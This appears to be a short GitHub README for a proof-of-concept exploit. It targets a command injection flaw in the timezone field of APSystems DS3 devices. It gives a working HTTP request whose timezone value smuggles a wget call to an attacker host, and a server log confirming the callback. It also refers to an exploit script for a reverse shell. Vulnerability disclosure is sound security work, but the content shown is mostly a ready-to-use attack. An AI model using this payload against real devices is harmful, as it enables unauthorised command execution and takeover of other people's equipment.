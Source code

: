 # APSystems-DS3-RCE-Timezone
APSystems DS3 is vulnerable to command injection in the timezone field

![demo](demo.png)

```
POST /index.php/management/set_timezone HTTP/1.1
Host: 192.168.1.99

timezone=;wget+192.168.1.87;#
```


```
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.99 - - [11/Nov/2022 14:28:04] "GET / HTTP/1.1" 200 
```

See `exploit.py` for an exploit to obtain a reverse shell
